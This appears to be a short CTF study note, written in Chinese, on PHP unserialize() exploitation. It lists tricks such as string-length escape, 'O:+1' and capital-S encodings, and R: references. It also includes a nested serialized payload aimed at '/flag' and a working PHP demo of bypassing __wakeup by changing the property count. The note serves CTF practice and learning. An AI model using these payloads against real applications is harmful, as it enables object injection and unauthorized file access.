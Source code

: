 - [PHP 内置类的应用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label1_0)
  
  ```php
  O:1:"A":1:{
      s:4:"aaaa";
      O:1:"B":1:{
          s:4:"bbbb";
          s:5:"/flag";
      }
  }
  ```
- 使用大写 S 可以自动转义`\61`等符号
- protected 变量
	- `S:7:"\00*\00aaaa";`
- 可以试试通过改变字符串长度实现字符逃逸
- unserialize()会把多余的字符串当垃圾处理，在花括号内的就是正确的，花括号后面的就都被扔掉
- `O:1:"A":1:`也可以用`O:+1:"A":1:`代替
- 对象内可以用指针：`R:2;`指向第二个元素
- `__wakeup`绕过：修改类的键数量
  collapsed:: true
	- ```php
	  <?php
	  
	  class Test {
	      public $a;
	      function __wakeup() {
	          echo "wakeup";
	      }
	      function __destruct() {
	          echo "destruct";
	      }
	  }
	  
	  $t = new Test();
	  $t -> a = "114514";
	  $s = serialize($t);
	  $s = str_replace('"Test":1', '"Test":2', $s);
	  echo serialize($t);
	  $t2 = unserialize($s);
	  var_dump($t2);
	  ?>
	  
	  ```
		-
- 快速反序列化：参考[[CTF/WP/数博会 贵阳杯]]